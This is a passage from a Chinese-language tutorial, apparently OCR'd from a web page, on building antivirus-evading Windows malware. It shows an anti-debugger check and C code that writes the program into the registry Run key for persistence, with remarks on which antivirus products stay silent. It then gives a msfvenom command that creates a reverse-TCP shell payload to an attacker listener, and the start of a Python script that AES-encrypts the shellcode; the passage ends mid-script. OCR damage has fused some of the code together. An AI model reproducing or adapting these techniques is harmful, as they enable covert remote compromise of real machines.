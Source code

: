 	```

- IsDebuggerPresent() 返回非零值，意味着检测到调试器，程序将调用 ExitProcess(1)退出程序，实测xdbg调试程序时会触发退出
- 
# 添加到开机启动项

- 'Software\\Microsoft\\Windows\\CurrentVersion\\Run' 是一个注册表路径，用于存储当前用户登录时自动运行的程序。我们可以将当前程序的路径写入该注册表项，以实现开机自启动功能
```BASH

#include <windows.h>
#include<stdio.h>

void add_to_startup(constchar*appname,constchar*path){
    HKEY hKey;
    LONG result;

    result =RegOpenKeyEx(HKEY_CURRENT_USER,
'Software\\Microsoft\\Windows\\CurrentVersion\\Run',
0, KEY_SET_VALUE,&hKey);

if(result != ERROR_SUCCESS){
return;
}

    result =RegSetValueEx(hKey, appname,0, REG_SZ,(BYTE *)path, strlen(path)+1);

RegCloseKey(hKey);
}

int main(int argc,char*argv[]){
char path[MAX_PATH];
if(GetModuleFileName(NULL, path, MAX_PATH)==0){
return1;
}
    add_to_startup('MyAppName', path);
}

```

- 实测写入注册表时，只有360会有提示，火绒和defender不会有任何弹窗提示。

# AES混淆shellcode

- 首先需要cs或者msf生成raw格式的shellcode源文件，这里用msf举例
```BASH
msfvenom -p  windows/x64/shell_reverse_tcp lhost=192.168.0.110 lport=8888 -f raw -o msf.bin
```

- 然后用python脚本生成aes加密的key和加密后的shellcode
```python

import sys
fromCrypto.Cipherimport AES
fromCrypto.Util.Paddingimport pad
from os import urandom
import hashlib

defAESencrypt(plaintext, key):
    k = hashlib.sha256(KEY).digest()
    iv =16* b'\x00'
    plaintext = pad(plaintext, AES.block_size)
    cipher = AES.new(k, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(plaintext)
```